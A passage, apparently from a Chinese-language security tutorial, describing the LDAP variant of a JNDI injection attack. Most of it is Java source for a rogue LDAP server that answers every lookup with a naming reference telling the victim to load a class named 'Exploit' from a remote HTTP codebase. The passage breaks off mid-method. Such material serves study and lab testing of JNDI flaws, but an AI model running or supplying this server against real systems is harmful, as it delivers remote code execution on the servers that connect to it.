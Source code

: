 
流程说明（LDAP）：

其他的都和上面的一样,只需要将RMI服务换为LDAP

创建`LDAPServer.java`

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LDAPServer {
    public static void main(String[] args) throws Exception {
        String httpHost = "127.0.0.1";
        int httpPort = 8000; // 你的HTTP服务器端口
        int ldapPort = 1389; // LDAP服务监听的端口

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");

        // 使用兼容旧版本的、参数更完整的监听器配置
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                ldapPort,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(httpHost, httpPort));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println(">>> LDAP server is running on port " + ldapPort);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private final String httpHost;
        private final int httpPort;

        public OperationInterceptor(String httpHost, int httpPort) {
            this.httpHost = httpHost;
            this.httpPort = httpPort;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                System.out.println(">>> LDAP server received a lookup for: " + base);
                String codebase = "http://" + this.httpHost + ":" + this.httpPort + "/";
                e.addAttribute("javaClassName", "Exploit");
                e.addAttribute("javaCodeBase", codebase);
                e.addAttribute("objectClass", "javaNamingReference");
                e.addAttribute("javaFactory", "Exploit");
```